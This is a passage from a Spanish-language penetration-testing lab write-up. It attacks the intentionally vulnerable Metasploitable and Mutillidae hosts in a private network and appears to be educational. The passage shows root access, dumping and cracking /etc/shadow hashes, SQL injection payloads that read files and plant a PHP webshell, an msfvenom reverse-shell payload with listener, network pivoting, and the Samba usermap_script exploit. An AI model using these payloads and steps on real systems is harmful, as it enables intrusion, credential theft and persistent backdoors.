[*] Started bind TCP handler against 192.168.8.133:4444
[*] Command shell session 2 opened (192.168.8.131:40362 -> 192.168.8.133:4444 via session 1) at 2026-01-09 13:45:23 -0500
```

**✅ Shell obtenida en Metasploitable**

**Nota:** `via session 1` indica que está usando la sesión Meterpreter como punto de pivote.



---

### 6.4 Verificar Acceso
```
whoami
```

**Resultado:**
```
root
```
```
id
```

**Resultado:**
```
uid=0(root) gid=0(root)
```

**✅ Acceso ROOT obtenido!**




---

### 6.5 Enumeración del Sistema

**Hostname:**
```
hostname
```
**Resultado:** `metasploitable`

**Sistema operativo:**
```
uname -a
```
**Resultado:**
```
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

**Interfaces de red:**
```
ifconfig
```
**Resultado:**
```
eth0      Link encap:Ethernet  HWaddr 00:0c:29:80:d3:95
          inet addr:192.168.8.133  Bcast:192.168.8.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
```



---

## 7. Fase 6: Post-Explotación Avanzada

### 7.1 Extracción de /etc/shadow
```
cat /etc/shadow
```

**Resultado:**
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::

Guardar hashes:
# Desde Kali, crear archivo hashes.txt:
nano hashes.txt
```

**Contenido de hashes.txt:**
```
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//


7.2 Identificar Tipo de Hash
bash# Desde Kali:
hashid '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'
```

**Resultado:**
```
Analyzing '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'
[+] MD5 Crypt
[+] Cisco-IOS(MD5)
[+] FreeBSD MD5
Conclusión: Hashes MD5 Crypt ($1$)

7.3 Cracking con John the Ripper
bash# Desde Kali:
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Proceso:**
```
Using default input encoding: UTF-8
Loaded 7 password hashes with 7 different salts (md5crypt [MD5 32/64])
Cost 1 (iteration count) is 1000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

123456789        (klog)
batman           (sys)
service          (service)

3g 0:00:02:45 DONE (2026-01-09 14:15) 0.01818g/s 192384p/s 192384c/s 1345Kc/s
Use the "--show" option to display all of the cracked passwords reliably
Session completed
Ver resultados:
bashjohn --show hashes.txt
```

**Resultado:**
```
klog:123456789
sys:batman
service:service

3 password hashes cracked, 4 left




7.4 Resumen de Credenciales Crackeadas
UsuarioHash (MD5 Crypt)ContraseñaEstadoklog$1$f2ZVMS4K$R9XkI.Cm...123456789✅ Crackeadosys$1$fUX6BPOt$Miyc3Up...batman✅ Crackeadoservice$1$kR3ue7JZ$7GxELD...service✅ Crackeadoroot$1$/avpfBJ1$x0z8w5U...-❌ No crackeadomsfadmin$1$XN10Zj2c$Rt/zzC...-❌ No crackeadouser$1$HESu9xrH$k.o3G93...-❌ No crackeadopostgres$1$Rw35ik.x$MgQgZU...-❌ No crackeado

8. Resumen de Comandos Utilizados
Reconocimiento
bash# Burp Suite
burpsuite &

# Skipfish
skipfish -YO -o ~/Desktop/skipfish_resultados http://192.168.0.21/mutillidae/index.php
SQL Injection
sql-- Extracción de usuarios
' OR 1=1-- 

-- Bypass autenticación
' OR 1=1-- 

-- Determinar columnas
' ORDER BY 7-- 

-- Obtener BD
' UNION SELECT null,database(),null,null,null,null,null-- 

-- Obtener versión
' UNION SELECT null,version(),null,null,null,null,null-- 

-- Listar tablas
' UNION SELECT null,table_name,null,null,null,null,null FROM information_schema.tables WHERE table_schema='mutillidae'-- 

-- Leer archivo
' UNION SELECT null,LOAD_FILE('/etc/passwd'),null,null,null,null,null-- 

-- Upload webshell
' UNION SELECT null,null,null,null,null,null,'[CÓDIGO PHP]' INTO DUMPFILE '/var/www/html/mutillidae/backdoor.php'--
Webshell Commands
bashwhoami
ls -la
cat /etc/passwd
ip addr show
ping -c 1 192.168.8.133
Metasploit - Meterpreter
bash# Generar payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.30 LPORT=4444 -f elf > shell.elf

# Server payload
python3 -m http.server 8000

# Listener
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.0.30
set LPORT 4444
exploit

# Pivoting
run autoroute -s 192.168.8.0/24
run autoroute -p
background
Metasploit - Samba Exploit
bash# Escaneo de puertos
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.8.133
set PORTS 1-10000
run

# Exploit Samba
use exploit/multi/samba/usermap_script
set RHOSTS 192.168.8.133
set PAYLOAD cmd/unix/bind_perl
exploit
Password Cracking
bash# Identificar hash
hashid '$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.'

# Crackear con John
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Ver resultados
john --show hashes.txt

## 9. Herramientas y Versiones
| Herramienta              | Versión | Propósito                          |
|--------------------------|---------|------------------------------------|
| Kali Linux               | 2024.1  | Sistema operativo atacante         |
| Burp Suite Community     | 2024.x  | Proxy interceptor                  |
| Skipfish                 | 2.10b   | Web scanner                        |
| Metasploit Framework     | 6.3.x   | Plataforma de explotación          |
| msfvenom                 | 6.3.x   | Generador de payloads              |
| John the Ripper           | 1.9.0   | Password cracker                   |
| Python                   | 3.11    | Servidor HTTP                      |
| Firefox                  | 115 ESR | Navegador web                      |


## 10. Referencias

OWASP Testing Guide
Metasploit Unleashed
Burp Suite Documentation
CVE-2007-2447
Pivoting Techniques

Para una **versión más extendida** del paso a paso, puedes visitar [esta entrada](https://diariohacking.com/aprender-ciberseguridad/auditoria-de-seguridad-pentesting-web-y-pivoting-de-red) que escribí en mi blog.

Autor: Estefanía Ramírez Martínez
Fecha: Enero 2025
Licencia: MIT


